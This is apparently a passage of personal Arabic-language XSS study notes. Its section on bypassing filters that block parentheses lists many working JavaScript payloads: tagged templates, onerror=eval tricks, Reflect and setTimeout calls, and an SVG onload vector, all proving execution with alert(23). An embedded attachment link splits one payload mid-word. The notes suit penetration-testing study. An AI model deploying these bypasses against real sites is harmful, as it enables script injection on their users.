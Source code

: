 
----

## 5️⃣ممكن تستخدم علامه ال & بعد ال parameter 
{   #XSS_other_idea }

##### الشرح :
![2025-05-20 02-18-21.mkv](attachments/2025-05-20 02-18-21.mkv)



-----

-----
## 6️⃣ لو ال () بيحصل ليهم فلتره 
{ #with_out_Parentheses_bracket }
#### شرح مبسط

![Recording 20250527040310.m4a](attachments/Recording 20250527040310.m4a)

```javascript
 <script>alert`23`</script>

  <script> eval.call`${'alert\x2823\x29'}`</script>

 <script> e
![Recording 20250527040310.m4a](attachments/Recording 20250527040310.m4a)
val.apply`${[`alert\x2823\x29`]}`</script>

<script> setTimeout`alert\x2823\x29`</script>


 <script> setInterval`alert\x2823\x29`</script>

<script> onerror=alert;throw 23;</script>


Reflect.apply.call`${alert}${undefined}${[23]}`

navigation.navigate`javascript:alert\x2823\x29`

var{haha:onerror=alert}=0;throw 1

var{a:onerror}={a:alert};throw 1


window.name='javascript:alert\x2823\x29';
Reflect.set.call`${location}${'href'}${name}`

'alert\x2823\x29'instanceof{[Symbol.hasInstance]:eval}


onerror=eval;throw'=alert\x2823\x29';

<svg onload=onerror=eval,new'\u0022-alert\x2823\x29//'>

{onerror=alert}throw 23

throw{},onerror??=alert,"XSS"??123



http://example.com/?%0aalert(23)
```
